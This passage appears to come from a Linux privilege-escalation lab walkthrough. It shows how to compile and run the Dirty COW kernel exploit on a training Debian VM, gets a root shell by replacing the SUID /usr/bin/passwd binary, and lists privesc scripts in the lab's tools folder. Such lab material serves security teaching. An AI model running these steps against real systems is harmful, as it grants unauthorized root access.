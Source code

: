     The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at `/home/user/tools/kernel-exploits/dirtycow/c0w.c`. It replaces the SUID file `/usr/bin/passwd` with one that spawns a shell (a backup of `/usr/bin/passwd` is made at `/tmp/bak`).

- Compile the code and run it (note that it may take several minutes to complete):

    ```bash
    user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
    user@debian:~$ ./c0w
                                    
    (___)                                   
    (o o)_____/                             
        @@ `     \                            
        \ ____, //usr/bin/passwd                          
        //    //                              
        ^^    ^^                               
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd to /tmp/bak
    mmap c45a0000

    madvise 0

    ptrace 0
    ```

- Once the exploit completes, run /usr/bin/passwd to gain a root shell:

    ```bash
    user@debian:~$ /usr/bin/passwd
    root@debian:/home/user#
    ```

## Privilege Escalation Scripts
Several tools have been written which help find potential privilege escalations on Linux. Three of these tools have been included on the Debian VM in the following directory: `/home/user/tools/privesc-scripts`